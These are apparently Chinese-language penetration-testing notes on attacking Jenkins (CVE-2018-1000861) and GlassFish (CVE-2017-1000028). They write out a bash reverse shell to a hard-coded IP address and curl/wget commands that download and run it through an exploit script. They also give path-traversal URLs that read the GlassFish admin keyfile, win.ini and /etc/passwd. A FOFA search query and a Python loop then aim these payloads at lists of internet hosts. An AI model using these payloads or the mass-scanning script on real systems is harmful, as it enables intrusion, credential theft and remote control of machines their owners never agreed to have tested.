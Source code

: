 ```plain
2、CVE-2018-1000861
利用工具：https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc
环境：http://vulfocus.io/#/dashboard


直接利用不能成功，需要换一种思路才可以成功。先一个反弹shell的命令在txt文本，然后执行命令去下载这个文件，然后执行这个文件就可以完成shell反弹。

在shell.txt中写上代码：bash -i >& /dev/tcp/175.178.151.29/5566 0>&1
启动服务器：python3 -m http.server 3333
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134648216-1770103445.png)

```plain
下载文件：python2 exp.py http://123.58.236.76:57339/ "curl -o /tmp/1.sh http://175.178.151.29:3333/shell.txt" 
python2 exp.py http://123.58.236.76:57339/ "wget http://175.178.151.29:3333/shell.txt -O /tmp/1.sh"  （但是这个在监听中没有检测到）
执行文件：python2 exp.py http://123.58.236.76:57339/ "bash /tmp/1.sh"
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134648132-1192868529.png)

```plain
3、cve_2019_1003000 需要用户帐号密码
参考：https://blog.csdn.net/xuandao_ahfengren/article/details/108768357
```

- 中间件-GlassFish-工具脚本搜哈

```plain
探针默认端口：4848，GlassFish 是一款强健的商业兼容应用服务器

1.简单口令，访问特定地址就可以了。
2.CVE-2017-1000028
直接访问特定地址就可以完成。
读密码：/theme/META-INF/%c0.%c0./%c0.%c0./%c0.%c0./%c0.%c0./%c0.%c0./domains/domain1/config/admin-keyfile
读windows文件：/theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afwindows/win.ini
读linux文件：/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134648268-1155254431.png)

- 配合下-FofaViewer-工具脚本搜哈

```plain
1、配合GlassFish读取测试
语法："glassfish" && port="4848" && protocol="http"
写py脚本去测试
import time

import requests


for url in open('url.txt'):
    url=url.strip()
    print(url)
    p_url='http://'+url+':4848/theme/META-INF/%c0.%c0./%c0.%c0./%c0.%c0./%c0.%c0./%c0.%c0./domains/domain1/config/admin-keyfile'
    w_url='http://'+url+':4848/theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afwindows/win.ini'
    l_url='http://'+url+':4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd'
    
```